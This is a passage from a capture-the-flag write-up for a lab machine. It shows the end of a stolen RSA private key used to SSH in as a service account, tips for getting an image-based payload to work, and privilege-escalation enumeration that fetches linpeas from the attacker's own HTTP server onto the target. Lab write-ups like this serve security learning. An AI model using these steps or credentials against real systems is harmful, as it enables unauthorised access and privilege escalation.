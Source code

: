 ```
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----
```
- `chmod 600 id_rsa_svc-acc`
- `ssh -i id_rsa_svc-acc svc_acc@10.10.11.156`
- We are connected, this foothold was really painful and required patience because the size of the font in the image matters a lot. Here are a few tips if you are stuck.
  - The payloads have to be in one line 
  - I used mousepad with a light theme and zoomed in to make the font bigger
  - If for some reason the exploit did not work because of the size of the font get back to the font that was working before and make edit your picture in gimp or another similar tool by taking the 2 parts of the line to make it in one line 
![image](https://user-images.githubusercontent.com/96747355/167316768-0108325a-9b93-40aa-9dc3-74203ae10977.png)  

## Privilege escalation

- Let's enumerate the machine with linpeas `wget https://github.com/carlospolop/PEASS-ng/releases/download/20220508/linpeas_linux_amd64`
- `python3 -m http.server 80` we serve our file with python http server
- `wget http://10.10.14.11/linpeas_linux_amd64` we get the file in our target
- `chmod +x linpeas_linux_amd64` we make it executable

### LinePeas result analysis

- https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files  
![image](https://user-images.githubusercontent.com/96747355/167317073-13049c95-fb66-455a-991b-b4dd6046dacc.png)  
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation#systemd-path-relative-paths  
![image](https://user-images.githubusercontent.com/96747355/167317128-25467f95-3898-4c08-bfac-f2fd2cf398a6.png)  
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs  
![image](https://user-images.githubusercontent.com/96747355/167317167-4980613d-d53c-4aaa-87e6-3ceb1c7b26af.png)  
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses  
![image](https://user-images.githubusercontent.com/96747355/167317192-868ed2c8-51d1-4fb5-b88a-1dea2ec158a2.png)  
```
/home/svc_acc/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin                                                                                                                  
New path exported: /home/svc_acc/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
